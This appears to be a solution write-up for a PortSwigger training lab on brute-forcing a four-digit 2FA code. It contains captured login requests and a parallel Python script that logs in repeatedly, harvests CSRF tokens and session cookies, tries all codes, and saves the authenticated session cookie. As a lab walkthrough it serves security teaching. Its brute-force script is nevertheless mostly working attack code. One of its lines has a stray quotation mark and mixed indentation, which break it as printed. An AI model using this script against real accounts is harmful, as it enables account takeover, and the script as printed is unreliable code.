 # [Lab 9: 2FA bypass using a brute-force attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)

## Description

This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: `carlos:montoya`

---

## Solution

Navigate to the login page and intercept the login request with `carlos`'s credentials.

```http
POST /login HTTP/1.1
Host: ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Cookie: session=KNN8IMgojuPpigCLnBBYkbbCr7gs4opG
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Dnt: 1
Referer: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=BvqYgNlamBaPUhso5K0yFQec7BdkDhfZ&username=carlos&password=montoya
```

A `POST` request to `/login` with a cookie `session` and a body containing a CSRF token `csrf`, `username`, and `password`.

A successful response yields a 302 redirect to `/login2` with a new `session` cookie. This `session` cookie is required for the redirected request. The redirect yields the form to submit the 4-digit 2FA code, which also contains a CSRF token `csrf`.

Submit a random 2FA code to capture the submission request.

```http
POST /login2 HTTP/1.1
Host: ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Cookie: session=JBomLh8vcO2qpUwEWUZGhxGnLlvxfJxW
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Dnt: 1
Referer: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=uz1WxeSuraFP36mbB9B1RwR0EM8q1Uh0&mfa-code=1111
```

A `POST` request to `/login2` with the `session` cookie from the 302 redirect and a body containing another CSRF token `csrf` and the 4-digit 2FA code `mfa-code`.

The response from the server contains the string `Incorrect security code`.

![](images/Pasted%20image%2020210811153802.png)

Using BurpSuite Intruder, attempt a light brute force of `carlos`'s 2FA code to determine if there is any type of brute-force protection mechanism in play.

Whether the developers intended it to or not, it appears the CSRF token is acting as a form of brute force protection. After two requests, the CSRF token is invalidated by the server or expires and as a result, the 2FA code submission request is rejected.

![](images/Pasted%20image%2020210811154309.png)

To properly brute force the 2FA code, the request must contain a valid `session` cookie and CSRF token. A valid `session` cookie is granted in the 302 response to a successful username and password login and a valid CSRF tokens is picked up in the body of the 2FA code form. This means that for each 2FA code, a `POST` request must first be submitted to `/login` with `carlos`'s credentials, the `session` token must be extracted from the 302 response, the redirect should be followed, and the CSRF token `csrf` should be grapped from the 2FA login form, and `csrf` and `session` must be used in a `POST` request to `/login2` with the 2FA code.

The following script automates this process and writes an authenticated `session` cookie into a file named `$CODE.txt`. Use the `session` cookie to access `carlos`'s account at `/my-account`.

```python
from multiprocessing import Pool
import urllib3

from bs4 import BeautifulSoup 
import requests


# Disable self-signed cert warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def attempt_brute_force(code: str):

    # Fetch home page for CSRF
    with requests.get("https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login", verify=False) as response:
        assert response.status_code == 200 and "csrf" in response.text and "session" in response.cookies.get_dict(), "[!] Home page request for CSRF token and sessin cookie failed"
        soup = BeautifulSoup(response.content, "html.parser")
        csrf = soup.find("input", attrs={"name": "csrf"})['value']
        session_cookie = response.cookies['session']

    # Login as carlos and retrieve the session cookie and CSRF token
    response = requests.post(
        url="https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login",
        data={"username": "carlos", "password": "montoya", "csrf": csrf },
        cookies={"session": session_cookie},
        verify=False,
        allow_redirects=False
    )
    assert response.status_code == 302 and "session" in response.cookies.get_dict(), "[!] Error retrieving session cookie after login"
    session_cookie = response.cookies['session']

    response = requests.get(
        url="https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login2",
        cookies={"session": session_cookie},
        verify=False
    )
    assert response.status_code == 200 and "csrf" in response.text, "[!] Error retrieving CSRF token"
    soup = BeautifulSoup(response.content, "html.parser")
    csrf = soup.find("input", attrs={"name": "csrf"})['value']

    # Submit carlos's 2FA token
    response = requests.post(
        url="https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login2",
        data={"mfa-code": code, "csrf": csrf },
        cookies={"session": session_cookie},
        verify=False,
        proxies={"https": "http://127.0.0.1:8080"}
    )
    assert response.status_code == 200
    if "Incorrect security code" not in response.text:
        with open(f"{code}.txt", "a") as f:
			f.write(f"[*] Session cookie: {session_cookie}"")
    soup = BeautifulSoup(response.content, "html.parser")
    csrf = soup.find("input", attrs={"name": "csrf"})['value']


if __name__ == "__main__":
    with Pool(5) as p:
        p.map(attempt_brute_force, (str(i).zfill(4) for i in range(0, 10000)))
```
